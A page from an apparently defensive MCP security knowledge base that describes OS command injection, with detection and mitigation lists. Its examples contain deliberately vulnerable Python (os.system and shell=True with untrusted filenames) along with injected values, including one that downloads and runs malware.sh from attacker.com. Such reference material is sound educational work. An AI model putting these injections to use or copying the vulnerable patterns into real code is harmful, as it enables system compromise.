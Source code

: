 ```yaml
---
layout: default
title: "OS Command Injection"
permalink: /ttps/command-injection/os-command-injection/
nav_order: 3
parent: "Command & Code Injection"
grand_parent: "MCP Security TTPs"
---
```


# OS Command Injection

**Category**: Command & Code Injection  
**Severity**: Critical  

## Description

Execution of operating system commands through vulnerable MCP server implementations, enabling attackers to execute arbitrary OS-level commands and compromise the underlying system.

## Technical Details

### Attack Vector
- OS command execution through MCP tools
- System call vulnerabilities
- Shell command injection
- Process execution manipulation

### Common Techniques
- Shell metacharacter exploitation
- Command substitution attacks
- Process chaining
- Environment variable manipulation

## Impact

- **System Takeover**: Complete control over the operating system
- **File System Access**: Read, write, and execute files on the system
- **Network Access**: Access to network resources and services
- **Privilege Escalation**: Execution with elevated system privileges

## Detection Methods

### System Monitoring
- Monitor system call execution
- Track process creation
- Detect unusual command patterns
- Monitor file system access

### Process Analysis
- Analyze process execution trees
- Monitor process arguments
- Track process lifetime
- Detect process injection

## Mitigation Strategies

### Command Filtering
- Implement command allow-lists
- Use command validation
- Deploy command sanitization
- Restrict system access

### Process Security
- Use process isolation
- Implement sandboxing
- Deploy process monitoring
- Restrict process permissions

## Real-World Examples

### Example 1: Shell Metacharacter Exploitation
```python
def compress_file(filename):
    # Vulnerable OS command execution
    os.system(f"gzip {filename}")
    
    # Attack: filename = "file.txt; wget http://attacker.com/malware.sh; chmod +x malware.sh; ./malware.sh"
    # Executed: gzip file.txt; wget http://attacker.com/malware.sh; chmod +x malware.sh; ./malware.sh
```

### Example 2: Command Substitution
```python
def get_file_info(filename):
    # Vulnerable command substitution
    result = subprocess.check_output(f"file {filename}", shell=True)
    
    # Attack: filename = "$(whoami > /tmp/user.txt)"
    # Executed: file $(whoami > /tmp/user.txt)
```

### Example 3: Environment Variable Manipulation
```python
def run_script(script_name):
    # Vulnerable environment variable usage
    os.system(f"$SCRIPT_DIR/{script_name}")
    
    # Attack: script_name = "../../../bin/sh" with SCRIPT_DIR="/tmp"
    # Executed: /tmp/../../../bin/sh
```

## References & Sources

- **Strobes Security** - "MCP and Its Critical Vulnerabilities"
- **Simon Willison** - "Model Context Protocol has prompt injection security problems"
- **Structured MCP Threats** - Comprehensive threat landscape analysis

## Related TTPs

- [Command Injection](command-injection.md)
- [Shell Command Execution](shell-command-execution.md)
- [Code Injection](code-injection.md)

---

*OS command injection represents a critical vulnerability that can lead to complete system compromise through arbitrary operating system command execution.*